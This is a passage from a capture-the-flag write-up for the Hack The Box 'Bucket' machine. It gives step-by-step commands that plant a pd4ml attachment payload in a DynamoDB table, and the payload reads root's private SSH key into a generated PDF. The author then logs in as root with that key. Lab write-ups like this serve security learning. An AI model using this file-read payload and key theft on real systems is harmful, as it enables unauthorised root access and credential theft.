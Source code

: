Here we see that it uses `pd4ml` to generate a PDF file with any item in the table `alerts` and the title `Ransomware`. After going through the documentation, I got this interesting part for attachments in pdf files: [https://pd4ml.com/cookbook/pdf-attachments.htm](https://pd4ml.com/cookbook/pdf-attachments.htm)

Looking at the last example, it looks like when can add inline file to the attachment.

So now we need to do 3 thing:

- Create the `alert` table
- add our payload as an item within that table
- get it to generate the pdf file with a POST request

*NB: ****you can recover the flag using this method but also the `id_rs`* *to connect via SSH which I will show down here*

From you own machine, reate the table with the following command:

```php
aws dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url=http://s3.bucket.htb
```

Create an item with our payload

```php
aws dynamodb put-item --table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///root/.ssh/id_rsa</pd4ml:attachment>"}}' --endpoint-url=http://s3.bucket.htb
```

On the bucket machine create the POST request

```php
curl -X POST -d "action=get_alerts" http://127.0.0.1:8000/ -v
```

If it looks like it took some time before getting an answer, that means you have created the pdf file and you can copy it onto your machine:

```php
scp roy@bucket.htb:/var/www/bucket-app/files/result.pdf ~/Github/CTFstuff/HackTheBox/machines/Buckets/
```

download the file in the pdf (click on the icon):

![{{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_201642.png]({{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_201642.png)

change the permission and connect with ssh

```bash
chmod 600 id_rsa
ssh -i id_rsa root@bucket.htb
root@bucket:~# ls
backups  docker-compose.yml  files  restore.php  restore.sh  root.txt  snap  start.sh  sync.sh
root@bucket:~# cat root.txt
9fca4..................................79ce3
```

WE GOT THE FLAG!!!!